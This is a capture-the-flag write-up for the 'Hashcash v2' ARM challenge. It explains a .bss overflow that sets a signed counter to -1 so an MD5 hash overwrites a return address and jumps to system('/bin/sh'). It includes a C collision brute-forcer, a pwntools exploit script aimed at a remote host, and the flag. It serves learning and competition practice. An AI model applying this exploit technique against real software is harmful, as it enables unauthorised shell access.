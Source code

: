 # Hashcash v2

![Game](images/game.png)

As you can see in the image above, you are required to find a string, that starts with `nonce`, which it's MD5 hash that starts with `n` zero bytes, where `n` is the level number. At the very end (level 16) you are required to find an MD5 hash with all bytes to zero. If you find such hash, the program will do for you `system('/bin/sh')`.

You are provided with:
* `lib` directory: for libraries
* `chall` bash file: for starting up the program
* `hashcashv2` executable

Info about hashcashv2:
* Arch:     arm-32-little
* RELRO:    Full RELRO
* Stack:    Canary found
* NX:       NX enabled
* PIE:      No PIE (0x10000)

I'm not an expert on crypto but for sure, there's no way to win the game legitly. Thus, i started looking for any vulnerability in the input and i find out that the input has an huge overflow in the `stdin`, `stdout` section. The memory structure of `.data` and `.bss` is the following.

![Memory](images/memory.png)

We can overwrite until `hmask`, so changing `count`, `nonce`, `stderr`, `stdin`, `stdout` and of course `hmash`. Changing `stdin` or `stdout` will lead to a segfault when performing input/ouptut operation (print, read, ...), so one of the first things i looked for was a memory leak of the libc. Unfortunately, i didn't find anything and i thought a way to change them without trigger any input/output operation.
The remaining variables in the `.bss` are:
* `count`: an signed integer variable used for addressing all of the hashes in a buffer on the stack. It is incremented every level and multiplied for 16(length of a MD5 digest) to select the address in which will be stored the current level hash.
* `nonce`: it's the random byte which starts our string that will be hashed. It's a random value and it's not changing each level. It is placed in the input buffer on `.data` before reading the input.
* `hmask`: mask used for show how many bytes are set to zero in the current level. Not very useful.

Basically, we can change `count` and `nonce`. Incrementing the value of `count` will lead to an overwriting on part of the stack we are not interesed in. The game won't return normally, there's an alarm and so the only way to reach the return address on the stack is win the game legitly. Given that the `count` variable is signed, we can decrement it! In fact, if we overwrite the `count` variable with -1(`\xff\xff\xff\xff`), we can place the hash of the current input in the frame of a function called in the main function. The first function that will be called is the function that generates the hash and place it(using the `count` variable) in the buffer of the hash. With `count` equal to -1 this function overwrite its return address with the lowest 4 bytes of the current hash.

## Idea! 

Overwrite the return address of the hash function with a choosen address, so finding a collision on the first 4 byte of the hash.
The only address we can use is 0x00010C70 which performs:
LDR     R0, =aBinSh     ; "/bin/sh"
BL      system

N.B.: This address won't lead to any input/output operation, so it's perfect.

## String structure

Finally, we just need to create a string which its MD5 hash has its 4 byte equal to 0x00010C70.
The string is composed by:
* 1 random byte(`nonce`): we can not choose nor change it.
* 1023 bytes: i placed them to `\x00`.
* 20 bytes: bytes for `stderr`, `stdin`, `stdout` and 4 unused bytes.
* `count` bytes: they have to be placed to `\xff\xff\xff\xff`
* 4 bytes called `a`, `b`, `c` and `d`: i placed these bytes at the end in order to iterate them to find a collision.

## Problem

The only part of this string we cannot control is the `nonce` byte, so i decided to fill a list of `a`, `b`, `c` and `d` values that bring to a collision, for each value of `nonce`.

## Script and collision generator

I used the following program to generate the collision.

```C
#include <stdbool.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <openssl/md5.h>


void printHash(char *digest)
{
    int i;

    printf("MD5: ");
    for(i = 0; i < 16; i++)
    {
        if (digest[i])
        {
            printf("%02x", digest[i] & 0xff);
        }
        else
        {
            printf("00");
        }
    }
    printf("\n");
}

void main(int argc, char const *argv[])
{
    unsigned char digest[16];
    MD5_CTX initial;
    MD5_CTX final;
    unsigned char data[1048];
    unsigned char end[4];
    int i, a, b, c , d;
    bool found;


    for(i = 1; i < 256; i++)
    {
        memset(data, 0, 1048);
        data[0] = i;
        data[1044] = 0xff;
        data[1045] = 0xff;
        data[1046] = 0xff;
        data[1047] = 0xff;
        MD5_Init(&initial);
        MD5_Update(&initial, data, 1048);
        found = false;
        for(a = 0; a < 256 && found == false; a++)
        {
            for(b = 0; b < 256 && found == false; b++)
            {
                for(c = 0; c < 256 && found == false; c++)
                {
                    for(d = 0; d < 256 && found == false; d++)
                    {
                        memcpy(&final, &initial, sizeof(MD5_CTX));
                        end[0] = (char) a;
                        end[1] = (char) b;
                        end[2] = (char) c;
                        end[3] = (char) d;
                        MD5_Update(&final, end, 4);
                        MD5_Final(digest, &final);
                        if((char) digest[0] == 0x70)
                        {
                            if((char) digest[1] == (char) 0x0C)
                            {
                                if((char) digest[2] == (char) 0x01)
                                {
                                    if((char) digest[3] == (char) 0x00)
                                    {
                                        printf("i: %02x\n", i & 0xff);
                                        printf("a: %02x\n", a & 0xff);
                                        printf("b: %02x\n", b & 0xff);
                                        printf("c: %02x\n", c & 0xff);
                                        printf("d: %02x\n", d & 0xff);
                                        found = true;
                                        printHash(digest);
                                    }
                                }
                            }                           
                        }
                    }
                }
            }
        }
    }
}
```

It's very ignorant but, as i said, i'm not good on crypto stuff. However, it generates a collision at most every 3 min.
Once generated a new collision, the `a`, `b`, `c` and `d` are placed in a list of the following script.

```Python
from pwn import *
import md5

abcd_array = ['\x81\xf3\x1f\x02', '\x6a\xbc\xc3\x37']
while True:
    try:
        #conn = process(argv=['qemu-arm', '-g', '4000', '-L', './', './hashcashv2_patched'])
        conn = remote('142.93.39.178 2023', 2023)
        conn.recvuntil('\x1B[1mnonce:\x1B[0m 0x')
        byte = conn.recvuntil('\n')
        byte = int(byte, 16)
        conn.recvuntil('\x1B[1minput:\x1B[0m ')
        data_payload = ('\x00' * 1023)
        #libc std
        bss_payload = '\x00' * 16
        #completed
        bss_payload += '\x00' * 4
        #count
        bss_payload += '\xff\xff\xff\xff'
        #"proof of work"
        bss_payload += abcd_array[byte]
        payload = data_payload + bss_payload
        conn.sendline(payload)
        conn.interactive()
    except Exception as e:
        conn.close()
        continue
```

As you can see, there are only two values in the list because i got lucky and the `nonce` byte was 0x00 or 0x01.

`SECT{Y0U_kn0w_i7s_b@d_wHeN_cAn4R1es_n33d_C@NaRi3z}`